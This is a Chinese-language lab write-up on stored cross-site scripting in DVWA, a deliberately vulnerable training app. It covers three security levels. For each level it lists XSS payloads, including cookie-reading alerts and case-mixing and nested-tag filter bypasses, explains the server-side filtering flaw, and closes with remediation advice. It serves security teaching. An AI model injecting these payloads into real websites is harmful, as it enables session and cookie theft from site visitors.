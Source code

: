 # DVWA之存储型XSS #

## 漏洞概述 ##

存储型XSS是指应用程序直接将攻击者提交的具有恶意代码存储到后台，在显示数据页面被访问时恶意脚本在浏览器因html注入导致页面执行恶意代码从而被攻击者控制浏览器

## 测试工具 ##

firefox浏览器

## 测试方法 ##

### LOW级别 ###

1. 设置DVWA安全级别为LOW

2. 使用浏览器进行XSS攻击

    在浏览器中输入payload:

    + `<script>alert(/xss/)</script>`
    + `<script>alert(document.cookie)</script>`
    + `<img src="" onerror="alert(/xss/)"/>`
    + `<iframe src="" onload="alert(document.cookie)"></iframe>`

    ![](media/10.01.png)

4. 分析结果

    ![](media/10.02.png)

5. 代码分析

    ![](media/10.03.png)

    说明：

    应用程序直接将提交数据进行SQL特殊字符进行转义后存储到数据库，后续显示数据时未对数据做转义操作，可直接使用提交数据包含xss payload进行攻击

### MEDIUM级别 ###

1. 设置DVWA安全级别为Medium

2. 使用浏览器进行XSS攻击

    在浏览器中输入payload:

    + `<sc<script>ript>alert(/xss/)</script>`
    + `<sCrIpt>alert(document.cookie)</scRipT>`
    + `<img src="" onerror="alert(/xss/)"/>`
    + `<iframe src="" onload="alert(document.cookie)"></iframe>`

    ![](media/10.04.png)

3. 分析结果

    ![](media/10.05.png)

4. 代码分析

    ![](media/10.06.png)

    说明：

    应用程序将提交数据txtName只进行`<script>`标签过滤和SQL特殊字符进行转义后存储到数据库，后续显示数据时未对数据做转义操作，可直接txtName字段使用提交数据包含xss payload进行攻击（script大小写变换后的标签、二次变化的`<scr<script>ipt>`、iframe、img等标签进行绕过对txtName的过滤）

### HIGH级别 ###

1. 设置DVWA安全级别为High

2. 使用浏览器进行XSS攻击

    在浏览器中输入payload:

    + `<img src="" onerror="alert(/xss/)"/>`
    + `<iframe src="" onload="alert(document.cookie)"></iframe>`

    ![](media/10.07.png)

4. 分析结果

    ![](media/10.08.png)

5. 代码分析

    ![](media/10.09.png)

    说明：

    应用程序将提交数据txtName只进行`<script`字符串过滤和SQL特殊字符进行转义后存储到数据库，后续显示数据时未对数据做转义操作，可直接txtName字段使用提交数据包含xss payload进行攻击（通过iframe、img等标签进行绕过对txtName的过滤）

## 修复建议 ##

1. 禁用js读取cookie(设置cookie为httponly)

2. 在页面输出数据时对<、>、&、 '、"、/等字符进行html实体转义

3. 对输入数据中<、>、&、 '、"进行严格检查
